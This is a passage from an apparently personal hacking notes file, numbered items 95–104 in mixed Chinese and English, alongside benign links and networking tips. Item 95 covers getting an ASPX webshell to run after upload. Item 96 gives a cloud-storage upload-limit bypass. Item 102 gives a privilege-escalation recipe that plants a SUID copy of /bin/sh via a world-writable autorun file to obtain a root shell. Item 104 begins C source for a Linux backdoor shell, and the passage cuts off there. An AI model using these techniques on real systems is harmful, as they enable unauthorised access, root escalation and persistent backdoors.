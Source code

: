 95.aspx大马连接报错"/"解决方法:http://www.asp-muma.com/?post=97
   my way defferent from uppon one:
   create a new folder,create a web.config file with below content:
   --------------------------content------------------------
    <configuration>
        <system.web>
            <customErrors mode="Off"/>
        </system.web>
    </configuration>
   --------------------------end of content----------------
   then upon a strong webshell to my new created folder,found no more error.

96.百度云上传限制绕过:
   windows:
        copy 1.rmvb /b + hunxiao.txt /a 1-hunxiao-txt.rmvb
   linux:
        echo niaho >> 1.rmvb

97.windows中ping google && ping baidu ==>ping.bat:
                                         cmd /k "ping www.google.com.hk && ping www.baidu.com"
   创建ping.bat文件的快捷方式,在快捷方式中添加快捷键.eg.ctrl+alt+p

98.linux开启http代理:service squid3 status,service squid3 start,vi /etc/squid3/squid.conf default_port:3128

99.booklist:http://www.jianshu.com/p/67e294106919

100.gdb:http://www.jianshu.com/p/f20b10ea9a61

101.study links:
    http://www.shiyanbar.com/questions/733
    http://ch3rish.lofter.com/post/1d503b96_791362d

102.linux中suid,sgid,sticky详解:http://crazyming.blog.51cto.com/1048571/467414
    find / -type f -perm -4000 -ls > tmp.txt   function:find suid files
        find / -type f -perm -4000 -ls | grep "flag00" > tmp.txt    function:find file has setuid=flag00
    find / -type f -perm -2000 -ls > tmp.txt   function:find sgid files
    find / -perm -2 -type f -print             function:find files can be writeable by everyone
        echo "/bin/cp /bin/sh /tmp/.sh;chmod 4755 /tmp/.sh" >> writeable_file_if_it_is_from_any_autorun_directory
        /tmp/.sh -p(this command to get a euid=root shell)

103.linux中好用的find命令:http://www.oschina.net/translate/15-practical-unix-linux-find-command-examples-part-2?print

104.one linux backdoor shell can be like this:(file.c)
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
        gid_t gid;
        uid_t uid;
        gid = getegid();
        uid = geteuid();
    